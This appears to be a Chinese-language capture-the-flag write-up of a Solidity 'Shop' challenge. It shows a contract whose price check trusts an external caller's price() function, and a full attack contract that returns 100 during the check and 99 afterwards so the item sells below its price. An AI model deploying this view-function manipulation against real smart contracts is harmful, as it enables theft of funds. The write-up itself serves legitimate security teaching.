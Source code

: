 # shop
## 題目
<img width="451" alt="截圖 2024-09-22 下午11 48 14" src="https://github.com/user-attachments/assets/adac9fa6-661d-40c7-9f29-e626353add4a">

## 合約
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```
有一個問題就是它在執行價格檢查和狀態變更時，會依賴於外部合約返回的價格資訊
## hack
我們可以寫一個攻擊合約，在合約的 price() 函數中使用不同的返回值：

1. 當 Shop 合約檢查價格時，返回一個大於等於 100 的值，以通過檢查。
2. 在狀態變更為 isSold = true 後，返回一個較低的值來更新 price，實現以低價購買商品。
```solidity
pragma solidity ^0.8.0;

interface IShop {
    function buy() external;
    function price() external view returns (uint256);
    function isSold() external view returns (bool);
}

contract Hack {
    IShop private immutable target;

    constructor(address _target) {
        target = IShop(_target);
    }

    function pwn() external {
        target.buy();
        require(target.price() == 99, "price != 99");
    }

    function price() external view returns (uint256) {
        if (target.isSold()) {
            return 99;
        }
        return 100;
    }
}
```

